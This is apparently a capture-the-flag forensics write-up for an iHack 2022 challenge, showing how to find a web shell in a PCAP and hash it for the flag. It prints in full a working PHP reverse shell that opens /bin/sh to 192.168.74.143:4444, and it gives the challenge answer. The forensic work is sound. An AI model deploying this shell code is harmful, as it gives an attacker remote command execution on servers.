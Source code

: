 # DFIR 1

**Challenge Description:** iHack's web server have been defaced. Provide us the MD5 hash of the malicious file in the web server from this PCAP.

**Flag Format:** `ihack{MD5}`

### Solution

We can first analyze the PCAP file in `Wireshark` by doing `Follow TCP Streams`. However, due to the overwhelmingly amount of files, using `NetworkMiner` would be a better option.

A PHP reverse shell was found on stream `TCP 61440`. 

```
<?php
// PHP Reverse Shell
// Copyright (C) 2020 e@hotmail.com
// AbuDayeh
set_time_limit (0);
$VERSION 	= "1.0";
$ip 		= '192.168.74.143'; 	// Change Your {IP}
$port 		= 4444;       	// Change Your {Port}
$chunk_size 	= 1400;
$write_a 	= null;
$error_a 	= null;
$shell 		= 'echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d; /bin/sh -i';
$daemon 	= 0;
$debug 		= 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

This can be verified by viewing the base64 encoded payload embedded in the PHP file.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d
Welcome to ihack 2022. md5 this webshell
```

Retrieve the MD5 hash of the PHP web shell.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ md5sum /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
8472a0454391a40792173708866514ef  /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
```

**Flag:** `ihack{8472a0454391a40792173708866514ef}`
